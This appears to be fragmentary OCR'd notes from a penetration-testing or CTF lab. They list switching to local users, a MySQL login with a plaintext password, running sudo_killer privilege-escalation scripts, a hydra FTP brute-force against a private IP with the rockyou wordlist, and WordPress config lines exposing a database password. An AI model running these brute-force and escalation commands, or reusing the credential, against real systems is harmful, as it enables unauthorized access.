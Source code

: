 TRY

    su barney 
    and 
    su stephen 
    
    
    
    stephen worked

mysql -udbuser -p4Te3bRd483e -e "show databases;"

./sudo_killer.sh -c -i /path/sk_offline.txt

./sudo.sh -c -e -r report.txt -p /tmp

hydra -L fusers.txt -P /usr/share/wordlists/rockyou.txt [ftp://192.168.61.222](ftp://192.168.61.222/)

define( 'DB_PASSWORD', '4Te3bRd483e' );define( 'DB_PASSWORD', 'password_here' ); case 'DB_PASSWORD': define( 'DB_PASSWORD', $pwd );